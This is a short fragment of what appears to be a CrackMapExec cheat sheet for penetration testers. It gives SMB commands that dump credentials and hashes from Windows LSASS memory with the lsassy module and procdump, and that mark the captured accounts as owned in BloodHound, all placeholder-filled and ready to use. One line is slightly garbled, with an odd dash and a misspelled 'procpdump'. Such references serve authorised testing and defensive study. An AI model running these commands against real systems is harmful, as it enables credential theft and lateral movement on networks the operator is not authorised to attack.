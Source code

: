 #### Use the lsassy module
```
cme smb -m lsassy –options
procdump_path can automate dumping hashes with procpdump
```

#### Send credentials to BloodHound to set them owned
```
cme smb <ip> -u <username> -p <password> -M bh_owned -o PASS=<bloodhound_password>
```

#### Send LSASSY credentials to BloodHound to set them owned
```
cme smb 127.0.0.1 -M lsassy --bloodhound 
```


